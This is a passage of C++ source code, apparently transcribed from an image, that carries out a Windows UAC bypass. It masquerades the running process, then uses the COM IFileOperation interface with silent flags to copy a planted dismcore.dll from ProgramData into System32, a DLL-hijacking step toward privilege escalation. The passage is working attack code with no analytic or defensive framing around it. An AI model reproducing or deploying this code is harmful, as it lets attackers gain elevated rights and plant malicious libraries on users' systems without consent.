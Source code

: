 ```c++

        LdrEnumerateLoadedModules = (LPLDRENUMERATELOADEDMODULES)GetProcAddress(hinstStub, "LdrEnumerateLoadedModules");
        if (!LdrEnumerateLoadedModules)
        {
            printf("Could not find LdrEnumerateLoadedModules entry point in NTDLL.DLL");
            exit(0);
        }

        NtAllocateVirtualMemory = (LPNTALLOCATEVIRTUALMEMORY)GetProcAddress(hinstStub, "NtAllocateVirtualMemory");
        if (!NtAllocateVirtualMemory)
        {
            printf("Could not find NtAllocateVirtualMemory entry point in NTDLL.DLL");
            exit(0);
        }
    }
    else
    {
        printf("Could not GetModuleHandle of NTDLL.DLL");
        exit(0);
    }

    supMasqueradeProcess();
    printf("begin move dll by IFileOperation");
    getchar();
    HMODULE hModule = NULL;
    IFileOperation* fileOperation = NULL;
    LPCWSTR DFileName = L"dismcore.dll";
    LPCWSTR SourceFullPath = L"C:\\ProgramData\\dismcore.dll";
    LPCWSTR DestPath = L"C:\\windows\\System32";
    HRESULT hr = CoInitializeEx(NULL, COINIT_APARTMENTTHREADED | COINIT_DISABLE_OLE1DDE);
    if (SUCCEEDED(hr)) {

        hr = CoCreateInstance(CLSID_FileOperation, NULL, CLSCTX_ALL, IID_PPV_ARGS(&fileOperation));
        if (SUCCEEDED(hr)) {
            hr = fileOperation->SetOperationFlags(
                FOF_NOCONFIRMATION |
                FOF_SILENT |
                FOFX_SHOWELEVATIONPROMPT |
                FOFX_NOCOPYHOOKS |
                FOFX_REQUIREELEVATION |
                FOF_NOERRORUI);
            if (SUCCEEDED(hr)) {
                IShellItem* from = NULL, * to = NULL;
                hr = SHCreateItemFromParsingName(SourceFullPath, NULL, IID_PPV_ARGS(&from));
                if (SUCCEEDED(hr)) {
                    if (DestPath)
                        hr = SHCreateItemFromParsingName(DestPath, NULL, IID_PPV_ARGS(&to));
                    if (SUCCEEDED(hr)) {
                        hr = fileOperation->CopyItem(from, to, DFileName, NULL);
                        if (NULL != to)
                            to->Release();
                    }
                    from->Release();
                }
                if (SUCCEEDED(hr)) {
                    hr = fileOperation->PerformOperations();
                }
            }
            fileOperation->Release();
        }
        CoUninitialize();
```